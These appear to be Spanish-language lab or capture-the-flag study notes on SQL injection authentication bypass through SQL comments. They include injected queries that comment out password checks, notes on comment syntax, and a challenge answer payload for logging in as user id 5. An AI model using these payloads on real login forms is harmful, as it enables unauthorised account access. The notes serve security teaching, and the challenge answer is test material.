


# Using Comments

## Omision de atenticacion con comentarios
```
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```
Como se puede observar, el nombre del usuario es amdmin y el resto de la consulta hora se ignora como un comentario, de esta manera podemos asegurarnos que la consulta no tenga ningun problema de sintaxis.

---



```
SELECT * FROM logins where (username='admin')
```

En esta consulta se tuvo que agragar un parentesis de cierre, para poder cerrar y comentarel resto.

```
Nota: En SQL, usar sólo dos guiones no es suficiente para iniciar un comentario. Entonces, tiene que haber un espacio vacío después de ellos, por lo que el comentario comienza con (--), con un espacio al final. A veces, esta URL está codificada como (--+), ya que los espacios en las URL están codificados como (+). Para que quede claro, agregaremos otro (-) al final (-- -), para mostrar el uso de un carácter de espacio. 
```

## Reto

 Inicia sesión como usuario con el id 5 para obtener la bandera.



```
5' or id = '5')-- -
```